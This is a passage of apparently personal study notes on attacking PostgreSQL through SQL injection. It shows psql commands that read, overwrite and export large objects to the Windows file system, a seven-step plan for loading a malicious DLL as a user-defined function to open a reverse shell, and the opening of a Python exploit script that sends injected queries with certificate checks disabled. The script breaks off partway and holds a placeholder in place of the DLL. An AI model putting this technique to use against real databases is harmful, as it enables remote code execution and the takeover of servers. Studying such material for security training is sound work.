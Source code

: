 ```
      |        | [mci extensions]\r        +
      |        | [files]\r                 +
      |        | [Mail]\r                  +
      |        | MAPI=1\r                  +
      |        |
(1 row)
```
* Updating the entry
```PSQL
update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;
```
```
select loid, pageno, encode(data, 'escape') from pg_largeobject;
 loid | pageno | encode
------+--------+--------
 1337 |      0 | w00t
```
Finally we need to take a look at the `lo_export`, as this function is used to export an arbitrary large object back to the file system using the *loid* as the identifier. 
```PSQL
select lo_export(1337, 'C:\\new_win.ini');
```
![[6eb6b46c5bfff2ab61b0d04375ad0154-Picture30 1.png]]
* To delete from the large object: 
```PSQL
\lo_unlink 1337
```
#### Large Object Reverse Shell
1. Create a DLL file that will contain our malicious code
2. Inject a query that creates a large object from an arbitrary remote file on disk
3. Inject a query that updates page 0 of the newly created large object with the first 2KB of our DLL
4. Inject queries that insert additional pages into the _pg_largeobject_ table to contain the remainder of our DLL
5. Inject a query that exports our large object (DLL) onto the remote server file system
6. Inject a query that creates a PostgreSQL User Defined Function (UDF) based on our exported DLL
7. Inject a query that executes our newly created UDF

Encoding matters here
```Python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf ='YOUR DLL GOES HERE'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
```